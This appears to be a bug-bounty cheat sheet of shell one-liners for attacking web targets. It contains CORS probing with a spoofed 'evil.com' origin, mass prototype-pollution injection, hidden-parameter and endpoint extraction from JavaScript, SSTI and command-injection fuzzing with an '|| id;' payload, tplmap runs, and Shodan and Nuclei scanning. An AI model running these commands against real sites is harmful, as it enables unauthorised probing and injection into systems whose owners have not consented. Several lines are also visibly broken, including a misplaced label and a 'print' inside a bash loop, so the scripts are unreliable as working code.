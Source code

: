```
echo target.com | (gau || hakrawler || waybackurls || katana) | while read url;do target=$(curl -s -I -H "Origin: https://evil.com" -X GET $url) | if grep 'https://evil.com'; then [Potentional CORS Found]echo $url;else echo Nothing on "$url";fi;done
```
---------------
## Prototype Pollution:
```
subfinder -d target.com -all -silent | httpx -silent -threads 100 | anew alive.txt && sed 's/$/\/?__proto__[testparam]=exploit\//' alive.txt | page-fetch -j 'window.testparam == "exploit"? "[VULNERABLE]" : "[NOT VULNERABLE]"' | sed "s/(//g" | sed "s/)//g" | sed "s/JS //g" | grep "VULNERABLE"
```
-------------
## JS Files:
### Find JS Files:
```
cat target.txt | (gau || hakrawler || waybackurls || katana) | grep -i -E "\.js" | egrep -v "\.json|\.jsp" | anew js.txt
```
```
while read -r url; do
  if curl -s -o /dev/null -w "%{http_code}" "$url" | grep -q 200 && \
     curl -s -I "$url" | grep -iq 'Content-Type:.*\(text/javascript\|application/javascript\)'; then
    echo "$url"
  fi
done < urls.txt > js.txt
```
### Hidden Params in JS:
```
cat subs.txt | (gau || hakrawler || waybackurls || katana) | sort -u | httpx -silent -threads 100 | grep -Eiv '(.eot|.jpg|.jpeg|.gif|.css|.tif|.tiff|.png|.ttf|.otf|.woff|.woff2|.ico|.svg|.txt|.pdf)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Z0-9]+" | sed -e 's,'var','"$url"?',g' -e 's/ //g' | grep -Eiv '\.js$|([^.]+)\.js|([^.]+)\.js\.[0-9]+$|([^.]+)\.js[0-9]+$|([^.]+)\.js[a-z][A-Z][0-9]+$' | sed 's/.*/&=FUZZ/g'); echo -e "\e[1;33m$url\e[1;32m$vars";done
```
### Extract sensitive end-point in JS:
```
cat main.js | grep -oh "\"\/[a-zA-Z0-9_/?=&]*\"" | sed -e 's/^"//' -e 's/"$//' | sort -u
```
-------------------------
### SSTI:
```
for url in $(cat targets.txt); do python3 tplmap.py -u $url; print $url; done
```
```
echo target.com | gau --subs --threads 200 | httpx -silent -mc 200 -nc | qsreplace “aaa%20%7C%7C%20id%3B%20x” > fuzzing.txt && ffuf -ac -u FUZZ -w fuzzing.txt -replay-proxy 127.0.0.1:8080
```
---------------------------
## Scan IPs
```
cat my_ips.txt | xargs -L 100 shodan scan submit --wait 0
```
## Screenshots using Nuclei
```
nuclei -l target.txt -headless -t nuclei-templates/headless/screenshot.yaml -v
```